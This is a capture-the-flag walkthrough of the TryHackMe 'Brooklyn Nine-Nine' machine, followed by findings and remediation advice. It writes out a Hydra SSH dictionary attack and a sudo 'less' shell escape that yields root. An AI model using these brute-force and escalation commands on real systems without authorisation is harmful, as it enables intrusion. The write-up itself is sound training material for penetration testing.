# Brooklyn Nine-Nine (TryHackMe)

> **Difficulty:** Beginner  
> **Platform:** TryHackMe  
> **Objective:** Gain initial access to the target machine and escalate privileges to obtain the root flag.

---

# Machine Overview

Brooklyn Nine-Nine is a beginner-friendly Linux machine that demonstrates multiple attack vectors leading to system compromise. The assessment involved service enumeration, anonymous FTP access, SSH brute-forcing using a discovered username, and privilege escalation through a misconfigured sudo permission.

<p align="center">

</p>

<p align="center">
<b>Figure:</b> Brooklyn99 Challenge.
</p>
---

# Attack Path

```
Reconnaissance
      │
      ▼
Nmap Scan
      │
      ▼
Anonymous FTP Access
      │
      ▼
note_to_jake.txt
      │
      ▼
Username Enumeration (Jake)
      │
      ▼
Hydra SSH Brute Force
      │
      ▼
SSH Access (Jake)
      │
      ▼
Local Enumeration
      │
      ▼
sudo -l
      │
      ▼
GTFOBins (less)
      │
      ▼
Root Shell
```

---

# Reconnaissance

The first step was identifying the services exposed by the target machine.

### Nmap Scan

```bash
nmap <TARGET_IP>
```

This scan quickly identified the open TCP ports available on the target.

**Open Services**

| Port | Service |
|-------|----------|
| 21 | FTP |
| 22 | SSH |
| 80 | HTTP |

The presence of FTP immediately suggested checking whether anonymous authentication was enabled.

---

<p align="center">

</p>

<p align="center">
<b>Figure 1.</b> Initial Nmap scan identifying the exposed services.
</p>

---

## FTP Enumeration

A version detection scan was performed against the FTP service.

```bash
sudo nmap -sC -sV -p 21 <TARGET_IP>
```

### Why this scan?

- `-sC` executes the default NSE scripts.
- `-sV` identifies the running service version.
- Restricting the scan to port 21 provides detailed information about the FTP service.

<p align="center">

</p>

<p align="center">
<b>Figure 2.</b> Nmap Version Detection and Script Scan.
</p>
The scan revealed:

- vsftpd 3.0.3
- Anonymous FTP login enabled
- A downloadable file named **note_to_jake.txt**

---

<p align="center">

</p>

<p align="center">
<b>Figure 3.</b> FTP service enumeration showing anonymous access and the available file.
</p>

---

# Initial Access

Since anonymous login was allowed, the FTP server was accessed without credentials.

```bash
ftp <TARGET_IP>
```

Login:

```
Username: anonymous
Password:
```

Listing the directory revealed:

```
note_to_jake.txt
```

The file was downloaded and inspected.

```bash
get note_to_jake.txt
cat note_to_jake.txt
```

The note, written by **Amy**, warned Jake that his password was weak.

Although the password itself was not disclosed, the note strongly suggested that Jake's SSH credentials were vulnerable to a dictionary attack.

---

<p align="center">

</p>

<p align="center">
<b>Figure 4.</b> Anonymous FTP login and retrieval of the note.
</p>

---

# SSH Password Attack

Knowing the username **jake**, a dictionary attack was performed against the SSH service.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<TARGET_IP>
```

### Why Hydra?

Hydra is commonly used for online password attacks against authentication services. Since the note indicated a weak password, a dictionary attack using the RockYou wordlist was an appropriate choice.

Hydra successfully recovered valid SSH credentials for the user **jake**.

---

<p align="center">

</p>

<p align="center">
<b>Figure 5.</b> Hydra successfully discovering Jake's SSH password.
</p>

---

# SSH Access

Using the recovered credentials, SSH access to the target was established.

```bash
ssh jake@<TARGET_IP>
```

After logging in, the home directory was inspected.

No useful files were present inside Jake's home directory.

Listing `/home` revealed two additional user accounts.

```
amy
holt
```

Inspecting Holt's directory revealed the user flag.

```bash
cd /home
ls

cd holt
ls -la
cat user.txt
```

---

<p align="center">

</p>

<p align="center">
<b>Figure 6.</b> Enumerating local users and locating the user flag.
</p>

---

# Privilege Escalation

Local privilege escalation began by checking Jake's sudo permissions.

```bash
sudo -l
```

The output showed that Jake could execute:

```
/usr/bin/less
```

without supplying a password.

This represented a privilege escalation opportunity.

---

<p align="center">

</p>

<p align="center">
<b>Figure 7.</b> Passwordless sudo permission assigned to the less binary.
</p>

---

## GTFOBins

The binary was checked against GTFOBins.

GTFOBins documents legitimate Unix binaries that can be abused to perform privilege escalation.

The page confirmed that `less` can spawn a shell when executed via sudo.

---

<p align="center">

</p>

<p align="center">
<b>Figure 8.</b> GTFOBins documentation describing shell escape using less.
</p>

---

## Root Shell

The privileged binary was executed.

```bash
sudo less /etc/hosts
```

Inside **less**, the following command was entered.

```bash
!/bin/sh
```

The shell inherited root privileges, providing immediate administrative access.

Verification:

```bash
whoami
```

```
root
```

The root flag was then obtained.

```bash
cd /root
ls
cat root.txt
```

---

<p align="center">

</p>
<p align="center">

</p>
<p align="center">
<b>Figure 9.</b> Root shell obtained through the less shell escape technique.
</p>

---

# Alternate Attack Path

While exploring the HTTP service, the web page source revealed another intended attack path.

Observations included:

- A background image named **brooklyn99.jpg**
- An HTML comment referencing **steganography**

These findings indicate an alternative solution involving hidden data inside the image, matching the room description that multiple intended attack paths exist.

---

<p align="center">

</p>

<p align="center">
<b>Figure 9.</b> Background image used by the web application.
</p>

---

<p align="center">

</p>

<p align="center">
<b>Figure 10.</b> HTML source containing the steganography hint.
</p>

---

# Security Findings

| Finding | Risk |
|----------|------|
| Anonymous FTP Login Enabled | High |
| Sensitive information exposed via FTP | Medium |
| Weak SSH Password | High |
| Passwordless sudo configuration | Critical |
| Abuse of GTFOBins executable | Critical |

---

# Remediation

### Disable Anonymous FTP

Restrict anonymous authentication unless it is explicitly required.

---

### Enforce Strong Password Policies

Implement password complexity requirements and account lockout mechanisms to prevent dictionary attacks.

---

### Restrict SSH Authentication

Use key-based authentication where possible and disable password authentication for privileged systems.

---

### Review Sudo Permissions

Avoid granting unrestricted sudo access to interactive binaries such as:

- less
- vim
- nano
- awk
- find
- tar

Grant only the minimum privileges necessary.

---

### Periodically Audit Privileged Binaries

Regularly review sudo permissions against GTFOBins to identify binaries capable of privilege escalation.

---

# Conclusion

The compromise required chaining together several common security weaknesses:

- Anonymous FTP exposed internal information.
- A weak SSH password enabled credential compromise.
- Excessive sudo permissions allowed privilege escalation through a GTFOBins shell escape.

Although designed as a beginner machine, Brooklyn Nine-Nine effectively demonstrates how multiple low- and medium-severity misconfigurations can combine to produce complete system compromise.